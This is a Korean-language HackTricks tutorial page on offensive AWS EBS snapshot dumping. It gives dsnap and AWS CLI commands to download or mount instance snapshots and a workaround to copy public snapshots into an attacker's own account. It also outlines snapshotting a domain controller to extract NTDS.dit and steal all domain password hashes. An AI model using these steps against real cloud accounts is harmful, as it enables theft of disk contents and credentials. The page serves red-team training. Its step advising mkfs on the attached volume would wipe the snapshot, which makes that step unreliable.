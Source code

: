 # AWS - EBS Snapshot Dump

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 스냅샷을 로컬에서 확인하기
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**참고**: `dsnap`은 공개 스냅샷을 다운로드할 수 없습니다. 이를 우회하려면 스냅샷을 개인 계정에 복사한 후 해당 스냅샷을 다운로드할 수 있습니다:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

이 기술에 대한 자세한 정보는 [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)의 원본 연구를 확인하세요.

Pacu를 사용하여 [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots) 모듈로 이 작업을 수행할 수 있습니다.

## AWS에서 스냅샷 확인하기

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**당신의 제어 하에 있는 EC2 VM에 마운트하기** (백업 복사본과 동일한 지역에 있어야 함):

1단계: EC2 –> 볼륨으로 이동하여 원하는 크기와 유형의 새 볼륨을 생성합니다.

이 작업을 수행하려면 다음 명령을 따르십시오:

* EC2 인스턴스에 연결할 EBS 볼륨을 생성합니다.
* EBS 볼륨과 인스턴스가 동일한 영역에 있는지 확인합니다.

2단계: 생성된 볼륨을 마우스 오른쪽 버튼으로 클릭하여 "볼륨 연결" 옵션을 선택합니다.

3단계: 인스턴스 텍스트 상자에서 인스턴스를 선택합니다.

이 작업을 수행하려면 다음 명령을 사용하십시오:

* EBS 볼륨을 연결합니다.

4단계: EC2 인스턴스에 로그인하고 `lsblk` 명령을 사용하여 사용 가능한 디스크를 나열합니다.

5단계: `sudo file -s /dev/xvdf` 명령을 사용하여 볼륨에 데이터가 있는지 확인합니다.

위 명령의 출력이 "/dev/xvdf: data"를 보여주면 볼륨이 비어 있다는 의미입니다.

6단계: `sudo mkfs -t ext4 /dev/xvdf` 명령을 사용하여 볼륨을 ext4 파일 시스템으로 포맷합니다. 또는 `sudo mkfs -t xfs /dev/xvdf` 명령을 사용하여 xfs 형식도 사용할 수 있습니다. ext4 또는 xfs 중 하나를 사용해야 함을 유의하십시오.

7단계: 새 ext4 볼륨을 마운트할 선택한 디렉토리를 생성합니다. 예를 들어 "newvolume"이라는 이름을 사용할 수 있습니다.

이 작업을 수행하려면 `sudo mkdir /newvolume` 명령을 사용하십시오.

8단계: `sudo mount /dev/xvdf /newvolume/` 명령을 사용하여 볼륨을 "newvolume" 디렉토리에 마운트합니다.

9단계: "newvolume" 디렉토리로 이동하고 디스크 공간을 확인하여 볼륨 마운트를 검증합니다.

이 작업을 수행하려면 다음 명령을 사용하십시오:

* `/newvolume`로 디렉토리를 변경합니다.
* `df -h .` 명령을 사용하여 디스크 공간을 확인합니다. 이 명령의 출력은 "newvolume" 디렉토리의 여유 공간을 보여야 합니다.

Pacu를 사용하여 `ebs__explore_snapshots` 모듈로 이 작업을 수행할 수 있습니다.

## AWS에서 스냅샷 확인하기 (cli 사용)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## 섀도우 복사

**`EC2:CreateSnapshot`** 권한을 가진 AWS 사용자는 **도메인 컨트롤러의 스냅샷을 생성**하여 이를 자신이 제어하는 인스턴스에 마운트하고 **NTDS.dit 및 SYSTEM** 레지스트리 하이브 파일을 Impacket의 secretsdump 프로젝트에 사용할 수 있도록 내보내어 모든 도메인 사용자 해시를 훔칠 수 있습니다.

이 도구를 사용하여 공격을 자동화할 수 있습니다: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) 또는 스냅샷을 생성한 후 이전 기술 중 하나를 사용할 수 있습니다.

## 참조

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
